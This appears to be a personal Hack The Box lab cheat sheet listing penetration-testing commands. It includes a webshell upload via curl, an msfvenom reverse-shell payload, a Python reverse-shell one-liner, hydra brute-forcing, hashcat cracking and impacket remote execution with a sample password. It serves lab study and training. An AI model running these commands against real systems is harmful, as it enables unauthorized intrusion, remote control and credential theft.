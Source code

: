 # htb cheat sheet

## vi
:w !sudo tee %

## directory busting
nikto -host 10.10.10.68
gobuster dir --url 10.10.10.68 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 


## CURL
curl -X PUT -T /usr/share/webshells/aspx/cmdasp.aspx "http://10.10.10.15/sh.aspx"`
curl -X MOVE -H "Destination: http://10.10.10.15/sh.aspx" http://10.10.10.15/sh.txt



## msfvenom
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.14.8 lport=5577 -f aspx



## msfconsole
search suggester
use exploit/multi/handler
sessions 1


## impacket
impacket-wmiexec pentest:"P3nT3st!"@10.10.10.152

## Linux writeable directories
/dev/shm
/tmp


## Linux enumeration
LinEnum.sh

## reverse shells
Pentestmonkey reverse shell cheat sheet
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
payloadallthethings swisskyrepo

## upgrade shells 
upgrading simple shells ropnop blog
python -c 'import pty; pty.spawn("/bin/bash")'
stty raw -echo  # disables visible input, so fg has to be typed blind 
fg	


## hydra
export HYDRA_PROXY=connect://127.0.0.1:8080
hydra -l admin -P /opt/SecLists-master/Passwords/xato-net-10-million-passwords-10000.txt -s 80 "http-form-post://10.10.10.191/admin/:&username=^USER^&password=^PASS^:Username or password incorrect"  

## gobuster
gobuster dir -u 10.10.10.191 -w /opt/SecLists-master/Discovery/Web-Content/common.txt -x .php,.html,.txt

## metasploit
edit 			# edit current exploit
reload 			# reload exploit after edit

## hashcat
hashcat -m 110 -a 0 hash:salt --username test_user /usr/share/wordlists/rockyou.txt   # crack salted sha1 hash